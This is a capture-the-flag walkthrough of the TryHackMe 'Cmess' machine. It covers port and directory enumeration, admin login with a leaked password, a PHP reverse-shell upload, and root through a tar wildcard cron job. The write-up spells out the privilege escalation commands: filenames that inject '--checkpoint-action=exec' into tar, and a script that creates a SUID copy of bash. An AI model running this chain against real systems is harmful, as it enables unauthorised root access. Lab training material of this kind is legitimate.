 ```yaml
---
author: "0xt0pus"
title: "TryHackMe Cmess machine Walkthrough"
date: "2023-10-08"
description: "Cmess is a Linux machine which contains exposed passwords, no restriction on file upload and a crontab privilege escalation."
tags: ["Tryhackme", "cmess", "Machine-Walkthrough"]
cover:
    image: "/writeups/Cmess-Tryhackme/cmess.png"
ShowToc: true
TocOpen: false
---
```


## Setup

The following entry is being added to the `/etc/hosts`.


```bash
10.10.57.136 cmess.thm
```

## Enumeration

Nmap all ports scan is being run. The following was the result of the scan.


```bash
┌──(kali㉿kali)-[~/Desktop/tryhackme/cmess]
└─$ nmap 10.10.57.136 -p- --min-rate 2500
Starting Nmap 7.93 ( https://nmap.org ) at 2023-08-31 16:44 EDT
Warning: 10.10.57.136 giving up on port because retransmission cap hit (10).
Nmap scan report for cmess.thm (10.10.57.136)
Host is up (0.18s latency).
Not shown: 65507 closed tcp ports (conn-refused), 26 filtered tcp ports (no-response)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http

Nmap done: 1 IP address (1 host up) scanned in 43.91 seconds
```

So, port 22 and 80 are open. The version of services are being identified as shown.


```bash
┌──(kali㉿kali)-[~/Desktop/tryhackme/cmess]
└─$ nmap -sV -sC 10.10.57.136 -p22,80    
Starting Nmap 7.93 ( https://nmap.org ) at 2023-08-31 16:48 EDT
Nmap scan report for cmess.thm (10.10.57.136)
Host is up (0.18s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 d9b652d3939a3850b4233bfd210c051f (RSA)
|   256 21c36e318b85228a6d72868fae64662b (ECDSA)
|_  256 5bb9757805d7ec43309617ffc6a86ced (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-generator: Gila CMS
| http-robots.txt: 3 disallowed entries 
|_/src/ /themes/ /lib/
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 13.65 seconds
```

Other than Gila CMS, there's nothing interesting.

The website running on port 80 is being explored and the following is the page with no interesting surface.

![](/writeups/Cmess-Tryhackme/1.png)

The content on port 80

Dirsearch is being run to find the directories in the target website. The following is result is being obtained.


```bash
┌──(kali㉿kali)-[~/Desktop/tryhackme/cmess]
└─$ dirsearch -u http://10.10.57.136 --exclude-status=401,402,403,404

[16:56:01] Starting: 
[16:56:15] 200 -    4KB - /0                                                
[16:56:15] 200 -    4KB - /01                                                                                           
[16:56:17] 200 -    3KB - /About                                            
[16:56:21] 200 -    4KB - /Search                                           
[16:56:28] 200 -    2KB - /admin                                                                        
[16:56:44] 200 -    0B  - /api                                              
[16:56:46] 200 -  566B  - /assets/                                          
[16:56:47] 200 -    4KB - /author                                           
[16:56:50] 200 -    4KB - /blog/                                            
[16:56:51] 200 -    4KB - /category                                         
[16:57:05] 200 -  735B  - /feed                                             
[16:57:10] 200 -    4KB - /index                                            
[16:57:13] 301 -  318B  - /lib  ->  http://10.10.57.136/lib/?url=lib        
[16:57:15] 301 -  318B  - /log  ->  http://10.10.57.136/log/?url=log        
[16:57:15] 200 -    2KB - /login                                            
[16:57:32] 200 -   65B  - /robots.txt                                       
[16:57:33] 200 -    4KB - /search                                           
[16:57:37] 301 -  322B  - /sites  ->  http://10.10.57.136/sites/?url=sites  
[16:57:38] 301 -  318B  - /src  ->  http://10.10.57.136/src/?url=src        
[16:57:41] 200 -    4KB - /tag                                              
[16:57:41] 200 -    3KB - /tags                                             
[16:57:42] 301 -  324B  - /themes  ->  http://10.10.57.136/themes/?url=themes
[16:57:43] 301 -  318B  - /tmp  ->  http://10.10.57.136/tmp/?url=tmp        
                                                                             
Task Completed 
```

The directories are being explore, but majority of the pages can be accessed after authentication. We need to find email and password to access the administrator page.

![](/writeups/Cmess-Tryhackme/2.png)



Subdomains are being enamurated with the wfuzz tool. The result is being showed below.

```bash
┌──(kali㉿kali)-[~/Desktop/tryhackme/cmess]
└─$ wfuzz -c -f sub-fighter -w /usr/share/wordlists/SecLists-master/Discovery/DNS/subdomains-top1million-5000.txt -u "http://cmess.thm/" -H "Host: FUZZ.cmess.thm" --hw 290 
 /usr/lib/python3/dist-packages/wfuzz/__init__.py:34: UserWarning:Pycurl is not compiled against Openssl. Wfuzz might not work correctly when fuzzing SSL sites. Check Wfuzz's documentation for more information.
********************************************************
* Wfuzz 3.1.0 - The Web Fuzzer                         *
********************************************************

Target: http://cmess.thm/
Total requests: 4989

=====================================================================
ID           Response   Lines    Word       Chars       Payload                                                                                                                                                        
=====================================================================

000000019:   200        30 L     104 W      934 Ch      "dev"                                                                                                                                                                      

Total time: 0
Processed Requests: 4989
Filtered Requests: 4988
Requests/sec.: 0

```

The dev.cmess.thm is interesting, it is being added to /etc/hosts as given below.


```bash
10.10.57.136 dev.cmess.thm
```

The following is the content of this sub-domain.

![](/writeups/Cmess-Tryhackme/3.png)



## Gaining Access

The dev page seems to be a conversation between andre and support. The password of andre is exposed here. This password is being tried to ssh into the machine but it gave me that the password is incorrect.

So, the credentials are being tried at the Gila CMS admin login page. It worked and the admin page is being accessed.

![](/writeups/Cmess-Tryhackme/4.png)



Here under `content>file manager` there is an option to upload file. A php reverse shell is being upload here. There's no restriction on file upload.

The uploaded file can be accessed in the `cmess.thm/assets/revshell.php`.

A reverse shell is being obtained as show below:

![](/writeups/Cmess-Tryhackme/5.png)


Rev shell obtained

## Privilege Escalation

Currently, we are in the machine as `www-data` user. The `linenum.sh` is being transferred to the machine and is being run. It gave us a password backup file as shown.

![](/writeups/Cmess-Tryhackme/6.png)


Escalated to the user andre by running `su andre` , followed by the found password. As the current shell is not stable, we already got the password of andre, so connected to ssh with the credentials.

The user andre is being accessed as shown below:

![](/writeups/Cmess-Tryhackme/7.png)

Got user access. 

For getting root, the machine is being explored as the user andre.

There is a cronjob running, which is running after each 2 minutes and using wildcard with tar, it can used for getting root.

![](/writeups/Cmess-Tryhackme/8.png)



The following command is being run which will create a script that will copy the shell to the temp and will enable its suid bit.


```bash
echo 'cp /bin/bash /tmp/bash; chmod +s /tmp/bash' > /home/andre/backup/runme.sh
```

A checkpoint file is being created in the folder that will be backed up:


```bash
touch /home/andre/backup/--checkpoint=1
```

The following command will execute the script that is copying the shell to /tmp as root.


```bash
touch /home/andre/backup/--checkpoint-action=exec=sh\ runme.sh
```

Waited 2 minutes for the script to be executed,, and run the run the copied shell with command `/tmp/bash -p`

![](/writeups/Cmess-Tryhackme/9.png)


The machine is being rooted.

In this way, the root access is being obtained.

## Conclusion

The difficulty level of the machine was medium. The machine contains exposed password of user andre which can be used to access the admin panel. The admin panel has no restriction on file upload, and the files on the server can be run directly. For the privilege escalation, the machine again has exposed password of the user andre, which can be used for accessing the adre user from www-data. The root user can obtained by abusing the cronjobs.


